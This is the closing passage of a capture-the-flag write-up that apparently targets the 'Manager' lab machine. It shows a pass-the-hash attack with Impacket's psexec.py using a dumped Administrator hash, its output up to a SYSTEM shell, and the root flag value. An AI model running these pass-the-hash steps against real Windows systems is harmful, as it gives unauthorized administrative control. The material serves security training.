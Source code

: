 ![](img/manager12.png)

It works! In addition, certipy was able to dump the password hash of the Administrator user. Through pass-the-hash it is possible to obtain a privileged shell.

```shell
$ python3 examples/psexec.py 'Administrator'@10.10.11.236 -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.10.11.236.....
[*] Found writable share ADMIN$
[*] Uploading file lXDIQNBJ.exe
[*] Opening SVCManager on 10.10.11.236.....
[*] Creating service cUwj on 10.10.11.236.....
[*] Starting service cUwj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

I am IN!!!

***root.txt***: 98eccb3194f9efc3561883ba455ec3ed

![](img/manager13.png)
